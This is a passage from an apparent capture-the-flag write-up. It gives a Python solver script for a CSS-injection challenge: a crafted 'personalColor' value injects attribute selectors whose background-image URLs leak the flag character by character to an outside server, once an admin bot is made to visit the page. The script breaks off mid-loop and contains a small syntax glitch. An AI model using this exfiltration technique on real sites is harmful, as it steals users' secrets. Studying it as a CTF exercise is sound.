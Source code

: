 Now all we need is a script to generate accounts with different colors chars to see what the flag looks like, I have seen many solves and all of them were semi-automated because of how this whole thing is. So here is a little different approach 🙂
```py
#!/usr/bin/python3

import flask
import requests
from string import digits, ascii_letters
import re
import threading
from requests.adapters import HTTPAdapter, Retry

app = flask.Flask(__name__)

url = "https://eb7655042aed5ebaba63a259.deadsec.quest/"
server = "http://REDACTED/"
charset = ascii_letters + digits + "_{}-"flag = "DEAD{"

max_threads = 5


def check_flag(i):
    payload = {
        "username": f"ozs{flag + i}",
        "password": "oz",
    }
    payload["personalColor"] = (
        f"blue;"
        + "}"
        + f"input[class='user'][value^='{flag + i}']"
        + "{"
        + f"background-image: url('{server}oz/{flag + i}')"
    )
    payload["username"] = "ozs" + flag + i
    s = requests.Session()
    retries = Retry(
        total=10, backoff_factor=1, status_forcelist=[i for i in range(500, 600)]
    )
    s.mount("http://", HTTPAdapter(max_retries=retries))

    s.post(url + "auth/register", json=payload)
    r = s.post(url + "auth/login", json=payload)
    s.cookies.set("accessToken", r.json()["accessToken"])

    s.post(url + "post/write", json={"title": "test", "content": "test"})
    r = s.get(url + "post/")
    post_id = re.findall(r"post/([a-f0-9]+)", r.text)[0]
    print(post_id, flag + i)
    r = s.get(url + f"admin/report?url=http://localhost:1337/post/edit/{post_id}")
    print(r.text)
    return


@app.route("/solve")
def solve():
    oldflag = flag
    threads = []
    for i in charset:
        if oldflag != flag:
            break

        t = threading.Thread(target=check_flag, args=(i,))
        t.start()
```